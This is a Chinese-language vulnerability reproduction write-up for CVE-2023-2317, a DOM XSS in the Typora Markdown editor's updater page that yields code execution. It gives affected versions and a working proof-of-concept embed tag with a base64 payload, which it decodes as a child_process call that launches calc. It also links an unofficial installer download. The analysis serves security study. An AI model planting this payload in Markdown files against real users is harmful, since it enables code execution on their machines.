


Typora远程代码执行漏洞复现(CVE-2023-2317)
前言
Typora是一款由Abner Lee开发的轻量级Markdown编辑器，适用于OS X、Windows和Linux三种操作系统。如果用户在 Typora 中打开恶意文件，或从恶意网页复制文本并粘贴到 Typora 中，则会导致恶意代码在本地执行。这漏洞出来也有一段时间了，下面我们来简单分析复现一下。
漏洞详情及影响版本
在 Windows 及 Linux 上的 Typora 1.6.7 之前版本中，updater/update.html 內存在一个DOM 的 XSS，可用过在标签中加载typora://app/typemark/updater/update.html 的方式，在 Typora主页面的情況下制作 markdown文件，执行任意 JavaScript 代码。
影响版本
1 | Typora < 1.6.7 |
正文
Typora1.5.12下载地址（非官方）,没找到官方的，我直接搜索从第三方下载了一个
1 | https://mksoftcdn.yesky.com/64f57baf/f200b5674f7956b8742f572bfa71f12a/uploadsoft/typora-setup-x64-1.5.12.exe |
查看详情确认一下版本
粘贴下面的poc进行保存
1 | <embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnfSlbbmF2aWdhdG9yLnBsYXRmb3JtLnN1YnN0cigwLDUpXSk'))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]"> |
语言选择HTML

保存后即可弹计算器
直接打开md文件也会执行

分析一次POC，主要是看一下base64编码部分的
1 | cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnfSlbbmF2aWdhdG9yLnBsYXRmb3JtLnN1YnN0cigwLDUpXSk |
这段代码的原理是使用 Node.js 中的 child_process 模块来执行特定的操作系统命令。
通过三元表达式，使用 navigator.platform.substr(0,5) 来获取当前运行代码的操作系统平台（Windows、macOS、Linux等）。如果是在Win32平台下，就执行calc。
1 | reqnode('child_process').exec(({Win32: 'calc'})[navigator.platform.substr(0,5)]) |
修复建议
目前厂商已发布升级补丁已修复漏洞，请尽快升级